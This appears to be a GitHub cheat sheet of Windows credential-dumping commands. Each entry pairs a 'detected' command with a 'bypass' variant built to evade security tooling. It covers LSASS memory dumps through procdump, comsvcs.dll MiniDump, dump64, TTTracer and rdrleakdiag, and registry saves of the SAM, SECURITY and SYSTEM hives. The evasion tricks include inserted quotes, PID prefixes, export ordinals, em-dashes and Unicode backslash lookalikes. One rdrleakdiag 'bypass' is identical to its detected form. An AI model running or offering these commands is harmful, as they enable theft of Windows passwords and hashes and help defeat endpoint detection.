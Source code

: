 ```shell
#Detected
procdump.exe -md calc.dll explorer.exe
#Bypass
procdump.exe -"m"d"e"d"w" calc.dll explorer.exe
```

Comsvcs.dll, privileges required according to documentation SYSTEM

```shell
#Detected
rundll32 C:\windows\system32\comsvcs.dll MiniDump [LSASS_PID] dump.bin full
#Bypass
rundll32 C:\windows\system32\comsvcs.dll MiniDump +[LSASS_PID] dump2.bin full
rundll32 C:\windows\system32\comsvcs.dll MiniDump 0[LSASS_PID] dump3.bin full
rundll32 comsvcs,`#65560 [LSASS_PID] dump4.bin full
rundll32 comsvcs,`#24 [LSASS_PID] dump5.bin full
rundll32 comsvcs,`#00024 [LSASS_PID] dump6.bin full
```

Dump.exe Privileges required Administrator

```shell
#detected 
dump64.exe [LSASS_PID] out.dmp
#Bypass
dump64.exe 0[LSASS_PID] out.dmp
```

TTTracer.exe Privileges required Administrator

```shell
#detected
TTTracer.exe -dumpFull -attach [LSASS_PID]
#bypass
TTTracer.exe —dumpFull —attach [LSASS_PID]

Source: https://www.unicodepedia.com/unicode/general-punctuation/2014/em-dash/
```

rdrleakdiag.exe privileges required, user

```shell
#detected
rdrleakdiag.exe /p [LSASS_PID] /o c:\evil /fullmemdmp /wait 1
#bypass
rdrleakdiag.exe /p [LSASS_PID] /o c:\evil /fullmemdmp /wait 1
```

Credentials dumping, Privileges required Administrator

```shell
#Detected
reg save HKLM\SECURITY c:\test\security.bak && reg save HKLM\SYSTEM c:\test\system.bak && reg save HKLM\SAM c:\test\sam.bak
#Bypass
reg save HKLM∖SECURITY c:∖test∖security.bak && reg save HKLM∖SYSTEM c:∖test∖system.bak && reg save HKLM∖SAM c:∖test∖sam.bak
#Bypass
reg save HKLM＼SECURITY c:＼test＼security.bak && reg save HKLM＼SYSTEM c:＼test＼system.bak && reg save HKLM＼SAM c:＼test＼sam.bak
```
